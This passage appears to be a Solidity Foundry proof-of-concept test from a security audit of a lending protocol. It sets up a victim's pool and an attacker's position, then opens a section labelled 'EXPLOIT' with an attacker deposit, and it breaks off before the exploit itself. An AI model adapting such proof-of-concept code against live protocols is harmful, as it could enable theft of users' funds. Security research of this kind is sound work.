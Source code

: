 ```solidity
            (attPosition,) = protocol.portfolioLens().predictAddress(owner, salt);
            action = Action({ op: Operation.NewPosition, data: data });
            positionManager.process(attPosition, action);
            vm.stopPrank();

            vm.startPrank(positionManager.owner());
            positionManager.toggleKnownAsset(address(borrowAsset));
            // positionManager.toggleKnownAsset(address(collateralAsset)); // Already a known asset
            vm.stopPrank();
            // == Finish making the position

            // == Victim making the pool
            // // ==== Setting the rateModel
            address rateModel = address(new LinearRateModel(1e18, 2e18));
            bytes32 RATE_MODEL_KEY = 0xc6e8fa81936202e651519e9ac3074fa4a42c65daad3fded162373ba224d6ea96;
            vm.prank(protocolOwner);
            registry.setRateModel(RATE_MODEL_KEY, rateModel);
            // // ==== Finished Setting the rate model
            vm.startPrank(victim);
            vicPoolId = pool.initializePool(
                victim, // owner
                address(borrowAsset), // asset to use
                1e30, // pool cap
                RATE_MODEL_KEY // rate model key in registry
                );
            // // ==== Setting the LTV
            riskEngine.requestLtvUpdate(vicPoolId, address(collateralAsset), 0.8e18); // Using the same asset to borrow one in this case
            riskEngine.acceptLtvUpdate(vicPoolId, address(collateralAsset));
            // // ==== Finish setting the LTv
            vm.stopPrank();
            // == Finished making the pool

            // == Attacker setting up the position
            vm.startPrank(attacker);
            data = abi.encodePacked(address(collateralAsset));
            action = Action({ op: Operation.AddToken, data: data });
            positionManager.process(
                attPosition,
                action
            );
            collateralAsset.transfer(address(attPosition), amountOfAsset/2);
            vm.stopPrank();
            // == Finish Attacker setting up the position
        }

        /**
        * =============================
        *           EXPLOIT
        * =============================
         */

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
        borrowAsset.approve(address(pool), amountOfAsset/5);
        pool.deposit(vicPoolId, amountOfAsset/5, attacker);
        vm.stopPrank();

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
```